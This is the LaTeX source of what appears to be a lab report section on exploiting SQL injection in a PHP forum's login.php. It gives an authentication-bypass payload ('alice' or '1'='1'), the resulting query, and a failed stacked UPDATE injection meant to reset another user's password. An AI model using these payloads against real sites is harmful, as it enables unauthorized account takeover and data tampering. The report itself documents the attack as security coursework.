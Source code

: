 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\subsection{Exploiting the vulnerability in login.php}

We were able to login to Alice's account without knowing her password by inputing the following
text into login input box: \texttt{alice' or '1'='1}.\\
\includegraphics{gfx/sql/login.png}\\ On the server side when this is applied
to PHP code to form the SQL query, the query is changed into:

\lstset{
  captionpos=b,
  frame=single,
  language=SQL,
  breaklines=true,
  label=sql1
}
\begin{lstlisting}
SELECT user_id, username, user_password, user_active, user_level,
user_login_tries, user_last_login_try
FROM USERS_TABLE
WHERE username = ’alice’ OR 1' = ’1’ AND user_password = ’md5($password)’;
\end{lstlisting}

This query successfully creates a new session for a user without the knowledge about the password.

We tried injecting an update query too by inputing into the query
\texttt{bob'; UPDATE phpbb\_users SET user\_password = 'foo' WHERE username ='bob' OR 1='1} 
that was to change user `bob''s password to `foo'.  

However, because MySQL prevents query stacking when using \texttt{mysql\_query} method, we saw the following error:

\includegraphics[width=450px]{gfx/sql/updateerr.png}
\end{document}
